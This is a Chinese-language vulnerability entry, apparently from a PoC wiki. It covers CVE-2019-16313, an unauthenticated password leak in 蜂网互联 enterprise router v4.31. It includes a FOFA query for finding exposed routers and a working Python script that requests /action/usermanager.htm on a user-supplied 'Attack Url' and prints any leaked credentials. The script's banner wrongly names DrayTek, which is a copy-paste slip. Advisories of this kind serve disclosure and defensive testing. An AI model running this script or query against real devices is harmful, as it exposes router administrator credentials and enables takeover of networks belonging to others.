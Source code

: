 # 蜂网互联 企业级路由器v4.31 密码泄露漏洞 CVE-2019-16313

## 漏洞描述

蜂网互联企业级路由器v4.31存在接口未授权访问，导致攻击者可以是通过此漏洞得到路由器账号密码接管路由器

## 漏洞影响

> [!NOTE]
>
> 蜂网互联企业级路由器v4.31

## FOFA

> [!NOTE]
>
> app="蜂网互联-互联企业级路由器" 

## 漏洞复现

![](http://wikioss.peiqi.tech/vuln/feng-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

登录页面登录后可以看到，账号密码存在接口访问

![](http://wikioss.peiqi.tech/vuln/feng-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

而 **/action/usermanager.htm** 存在未授权访问，可通过直接访问获得账号密码

![](http://wikioss.peiqi.tech/vuln/feng-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 不存在漏洞时  state值为 3

##  漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/action/usermanager.htm"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
        if "pwd" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/feng-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> IFW8_Enterprise_router_Password_leakage_

![](http://wikioss.peiqi.tech/vuln/feng-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)